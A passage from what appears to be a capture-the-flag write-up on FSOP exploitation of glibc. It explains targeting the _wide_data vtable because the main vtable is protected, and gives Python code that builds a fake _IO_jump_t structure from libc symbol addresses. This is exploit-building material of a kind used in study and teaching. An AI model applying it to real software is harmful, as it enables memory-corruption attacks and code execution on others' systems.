 ### FSOP
Im not gonna explain FSOP in this writeup so before continuing you might wanna check these arcticles [1](https://niftic.ca/posts/fsop/) [2](https://faraz.faith/2020-10-13-FSOP-lazynote/)  

From the libc, we know that the vtable is protected, so we can't modify it directly. However, we can modify the `_wide_data` vtable, and this is where the mess begins. I haven't found any existing structures for `_IO_wide_data`, so I had to create them myself.  

```py
class _IO_jump_t:
    address = 0
    dummy = 0
    dummy2 = 0
    finish = 0
    overflow = 0
    underflow = 0
    uflow = 0
    pbackfail = 0
    xsputn = 0
    xsgetn = 0
    seekoff = 0
    seekpos = 0
    setbuf = 0
    sync = 0
    doallocate = 0
    read = 0
    write = 0
    seek = 0
    close = 0
    stat = 0
    showmanyc = 0
    imbue = 0
    def encode(self):
        pay = p64(self.dummy) + p64(self.dummy2)
        pay+= p64(self.finish)
        pay+= p64(self.overflow)
        pay+= p64(self.underflow)
        pay+= p64(self.uflow)
        pay+= p64(self.pbackfail)
        pay+= p64(self.xsputn)
        pay+= p64(self.xsgetn)
        pay+= p64(self.seekoff)
        pay+= p64(self.seekpos)
        pay+= p64(self.setbuf)
        pay+= p64(self.sync)
        pay+= p64(self.doallocate)
        pay+= p64(self.read)
        pay+= p64(self.write)
        pay+= p64(self.seek)
        pay+= p64(self.close)
        pay+= p64(self.stat)
        pay+= p64(self.showmanyc)
        pay+= p64(self.imbue)
        return (pay)
    def init(self):
        self.finish = libc.sym["_IO_new_file_finish"]
        self.overflow = libc.sym["__GI__IO_wfile_overflow"]
        self.underflow = libc.sym["__GI__IO_wfile_underflow"]
        self.uflow = libc.sym["__GI__IO_wdefault_uflow"]
        self.pbackfail = libc.sym["__GI__IO_wdefault_pbackfail"]
        self.xsputn = libc.sym["__GI__IO_wfile_xsputn"]
        self.xsgetn = libc.sym["__GI__IO_file_xsgetn"]
        self.seekoff = libc.sym["__GI__IO_wfile_seekoff"]
        self.seekpos = libc.sym["_IO_default_seekpos"]
```